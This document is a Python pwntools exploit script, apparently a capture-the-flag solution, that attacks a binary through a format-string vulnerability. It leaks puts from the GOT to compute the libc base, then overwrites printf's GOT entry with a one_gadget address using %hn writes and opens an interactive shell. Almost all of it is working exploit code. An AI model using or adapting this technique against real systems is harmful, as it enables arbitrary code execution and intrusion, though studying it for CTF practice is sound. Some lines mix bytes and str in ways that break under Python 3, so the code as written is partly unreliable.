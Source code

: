 ```python
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

offset = 8

puts_got = 0x000000000601018
printf_got = 0x000000000601030

# 1.leak libc
payload = b'%9$saaaa' + p64(puts_got)
ru('Please tell me:')
raw_input("Ther")
sl(payload)

libc_puts = u64(ru('\x7f')[-6:].ljust(8, b'\x00'))
success("libc_puts ==> {}".format(hex(libc_puts)))

libc_base = libc_puts - libc.symbols['puts']
success("libc_base ==> {}".format(hex(libc_base)))

libc_system = libc_base + libc.symbols['system']
success("libc_system ==> {}".format(hex(libc_system)))

# ones = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
ones = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

one_gadget = libc_base + ones[0]
success("one_gadget ==> {}".format(hex(one_gadget)))

one1 = one_gadget & 0xffff
one2 = (one_gadget >> 16) & 0xffff

success("one1 ==> {}".format(hex(one1)))
success("one2 ==> {}".format(hex(one2)))

# 2.printf_got --> one_gadget
payload	= b'%' + str(one1-9) + 'c%12$hnaaaa'
if (one2 - one1) > 0:
	payload+= b'%' + str(one2-one1-4) + 'c%13$hnaaa'
else:
	payload+= b'%' + str(one2-one1+0x10000-4) + 'c%13$hnaaa'

payload+= p64(printf_got) + p64(printf_got+2) 

success("payload ==> {}".format(payload))

ru('Please tell me:')
raw_input("Ther")
sl(payload)

shell()
```
